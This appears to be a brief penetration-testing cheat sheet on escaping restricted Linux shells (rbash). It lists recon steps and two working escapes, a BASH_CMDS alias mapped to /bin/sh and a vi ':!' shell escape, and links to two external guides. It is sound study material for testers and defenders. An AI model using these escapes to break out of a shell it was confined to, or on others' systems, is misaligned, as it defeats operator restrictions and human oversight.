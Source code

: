 ### Escape from Restricted Shells

1. Gather info

   - Tab out to see available commands
   - Check sudo
   - Check what languages you can use
   - Check if pipes work
   - Check for escape characters

2. Things that worked

   - ```bash
     # ERROR
     -rbash: /usr/bin/python: restricted: cannot specify `/' in command names
     # Escape
     BASH_CMDS[a]=/bin/sh;a 
     ```

   - Using vi and then escaping to shell

     ```bash
     :!/bin/ls -l .b*
     ```

     

https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/

https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/